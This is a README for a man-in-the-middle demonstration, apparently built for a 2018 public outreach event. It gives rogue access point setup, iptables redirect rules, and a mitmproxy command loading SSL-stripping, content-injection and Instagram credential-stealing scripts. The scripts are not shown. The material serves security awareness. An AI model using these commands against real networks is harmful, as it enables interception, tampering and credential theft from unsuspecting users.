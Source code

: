 Punti Deboli
============
Demo for VenetoNight 2018 involving MITM on several websites to showcase classic network attacker's capabilities


Setup
-----
Laptop is required to be connected using the eth adapter and serve a malicious AP using a compatible wifi card. NetworkManager is enough to setup the AP.

### Low-level netowrk setup

Enable ip forward

	# sysctl -w net.ipv4.ip_forward=1

Disable ICMP redirects

	# sysctl -w net.ipv4.conf.all.send_redirects=0

Apply firewall rules to enable transparent proxy (consider using appropriate names for the network devices)

	iptables -t nat -I PREROUTING -i wlp2s0 -p tcp --dport 80 -j REDIRECT --to-port 8080
	iptables -t nat -I PREROUTING -i wlp2s0 -p tcp --dport 443 -j REDIRECT --to-port 8080
	iptables -t nat -I POSTROUTING -o enx00e04c68a1d8 -j MASQUERADE

Then allow minimalblue.com

	iptables -t nat -I PREROUTING -i wlp2s0 -p tcp --dport 443 -d 37.187.99.217 -j ACCEPT


### Proxy

Install [mitmproxy](https://mitmproxy.org/)

	$ virtualenv -p /usr/bin/python3 venv
	$ . venv/bin/activate
	(venv) $ pip install mitmproxy

Run it with the provided scripts

	(venv) $ mitmweb --showhost --mode transparent -s scripts/sslstrip.py -s scripts/flip.py -s scripts/instasnarf.py -s scripts/fake.py

Or you can use `mitmdump -q -w /dev/null ...` to supress output log and avoid to spawn a browser instance.


Demo
----
Users are asked to access some websites, leading to different outcomes:

* any website using HTTP or HTTPS without HSTS: images are rotated of 180 deg. Few examples: http://www.italia.it, http://www.governo.it.
* corriere.it: although the site is in HTTPS, we add one fake news about c00kies doing a nasty hack against the The Pentagon
* instagram.com: even if it's one of the top websites and it support HTTPS, it does not implement HSTS so it's possible to steal login credentials